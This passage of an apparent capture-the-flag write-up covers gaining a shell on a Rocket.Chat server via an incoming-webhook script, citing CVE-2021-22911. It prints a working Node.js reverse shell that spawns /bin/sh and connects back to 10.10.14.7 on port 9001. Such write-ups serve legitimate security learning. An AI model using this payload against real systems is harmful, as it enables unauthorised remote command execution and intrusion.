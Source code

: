 Then, I can see "Administration" menu added.

![](attachments/talkative_21.png)

### Webhook

Reference : https://github.com/CsEnox/CVE-2021-22911

Click "Ingration -> New Integration -> Incoming webhook".

![](attachments/talkative_22.png)

Then, put reverse shell script. (Enable script above)

![](attachments/talkative_23.png)

```javascript
const require = console.log.constructor('return process.mainModule.require')();
var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []);
var client = new net.Socket();
client.connect(9001, "10.10.14.7", function(){
  client.pipe(sh.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
});
```

